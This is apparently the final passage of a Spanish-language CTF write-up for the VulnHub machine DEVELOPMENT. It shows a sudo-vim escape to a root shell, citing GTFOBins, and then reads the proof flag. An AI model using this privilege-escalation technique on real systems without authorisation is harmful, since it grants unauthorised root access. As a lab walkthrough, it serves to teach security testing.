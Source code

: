 El usuario tiene permiso total sobre los binarios vim y nano.

Usamos [gtfobins](https://gtfobins.github.io/)

![gtf](/assets/img/commons/vulnhub/digitalworld.local-DEVELOPMENT/gtf.png){: .center-image }

Elevamos nuestro privilegio y listamos la flag.

```bash
patrick@development:~$ sudo /usr/bin/vim -c ':!/bin/sh'

# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# ls
iptables-rules  lshell-0.9.9  proof.txt  smb.conf  tcpdumpclock.sh
# cat proof.txt
Congratulations on rooting DEVELOPMENT! :)
#
```

Hope it helps!